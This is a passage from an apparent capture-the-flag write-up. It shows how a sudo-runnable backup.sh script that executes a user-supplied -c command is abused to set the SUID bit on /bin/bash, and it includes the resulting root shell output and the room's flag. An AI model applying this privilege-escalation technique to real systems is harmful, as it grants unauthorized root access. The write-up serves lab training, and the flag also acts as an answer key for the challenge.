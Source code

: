 ```bash title="backup.sh"

cmd=$($command)
echo $cmd
```
Looking inside the `while` look, we can see that the program takes in user command identified by `-c`, and executes it.

Using this knowledge, we can set the `suid` bit on the `/bin/bash` file.
```
$ sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"
```
Now on executing the `bash` command, we will get root privilege.

Let's check our effective ID.
```
bash-4.3# id
uid=1000(alex) gid=1000(alex) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),1000(alex)
```
We can now go the `/root` directory.
```
bash-4.3# cd /root
bash-4.3# ls
root.txt
```
Let's `cat` the flag.
```
bash-4.3# cat root.txt 
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```
### Answer
```
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```
